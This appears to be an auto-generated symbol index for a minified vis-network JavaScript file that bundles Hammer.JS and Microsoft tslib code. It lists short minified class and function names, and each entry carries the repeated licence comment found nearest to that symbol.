- `Pk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Bk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Zk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Fk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Lk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Vk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Qk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Hk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `dx` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Tx` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Px` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Bx` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Zx` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Fx` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Lx` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Vx` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `qx` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `gE` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `CE` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `l` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `f` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `nE` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `dE` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `lE` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `o` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `uE` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `vE` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `A` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `lO` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `cO` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `fO` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `l` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `t` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `bO` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `a` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `ZO` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `u` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `LO` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `e` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************

#### `vis-network.min.js`
**Path:** `static/js/vis-network.min.js`

**Classes:**
- `as` (line 26) - *@license vis.js is dual licensed under both  1. The Apache 2.0 License http://www.apache.org/licenses/LICENSE-2.0  and  2. The MIT License http://opensource.org/licenses/MIT  vis.js may be distributed under either license.*
- `did` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `did` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `as` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************

**Functions:**
- `Pc` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `or` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `in` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `does` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `rO` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `g` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `g` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `has` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `does` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `C` (line 26) - *@license vis.js is dual licensed under both  1. The Apache 2.0 License http://www.apache.org/licenses/LICENSE-2.0  and  2. The MIT License http://opensource.org/licenses/MIT  vis.js may be distributed under either license.*
- `s` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `e` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `e` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `f` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `s` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `d` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `h` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `i` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `f` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `v` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `I` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `v` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `g` (line 26) - *@license vis.js is dual licensed under both  1. The Apache 2.0 License http://www.apache.org/licenses/LICENSE-2.0  and  2. The MIT License http://opensource.org/licenses/MIT  vis.js may be distributed under either license.*
- `t` (line 26) - *@license vis.js is dual licensed under both  1. The Apache 2.0 License http://www.apache.org/licenses/LICENSE-2.0  and  2. The MIT License http://opensource.org/licenses/MIT  vis.js may be distributed under either license.*
- `zo` (line 26) - *@license vis.js is dual licensed under both  1. The Apache 2.0 License http://www.apache.org/licenses/LICENSE-2.0  and  2. The MIT License http://opensource.org/licenses/MIT  vis.js may be distributed under either license.*
- `nc` (line 26) - *@license vis.js is dual licensed under both  1. The Apache 2.0 License http://www.apache.org/licenses/LICENSE-2.0  and  2. The MIT License http://opensource.org/licenses/MIT  vis.js may be distributed under either license.*
- `su` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `ku` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Nu` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Wu` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Xu` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `gp` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `np` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `vp` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
